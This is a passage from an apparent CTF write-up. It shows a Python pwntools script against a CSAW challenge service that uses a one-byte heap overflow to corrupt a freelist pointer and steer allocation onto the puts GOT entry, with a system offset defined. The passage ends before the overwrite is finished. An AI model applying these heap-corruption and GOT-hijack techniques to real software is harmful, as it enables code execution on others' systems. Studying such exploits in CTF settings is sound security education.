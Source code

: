 Putting it all together:

```python
from pwn import *

p = remote("pwn.chal.csaw.io", 5223)

def menu():
    p.recvuntil('5) Exit\n')

menu()

def allocate(size, read_menu=True):
    p.sendline('1')
    p.clean()
    p.sendline(str(size))
    if read_menu:
        menu()
    else:
        p.clean()

def delete(read_menu=True):
    p.sendline('2')
    retval = int(p.readline().split()[2])
    if read_menu:
        menu()
    return retval

def write(content, read_menu=True):
    p.sendline('3')
    p.clean()
    p.sendline(content)
    if read_menu:
        menu()
    else:
        p.clean()

def print_block(read_menu=True):
    p.sendline('4')
    retval = p.recvuntil('\n1) ')
    if read_menu:
        menu()
    return retval

PUTS_GOT_ADDR = 0x607020
SYSTEM_OFFSET = -172800

# Setup one byte overwrite
allocate(64)
write('A'*64 + '\x80')

# Create block in space with overwriten size, then delete it
allocate(64)
delete()

# Program in now confused of where 128 byte table should be
# let's allocate one and overwrite next chunk pointer of following 64 byte chunk
allocate(128)
write('B'*64 + p64(0x40) + p64(PUTS_GOT_ADDR - 0x10)) # -0x10 because the "next" pointer points at the chunk header, not the content

# Move current chunk ahead so that we're using the location we specified (the GOT)
allocate(64)
allocate(64)
```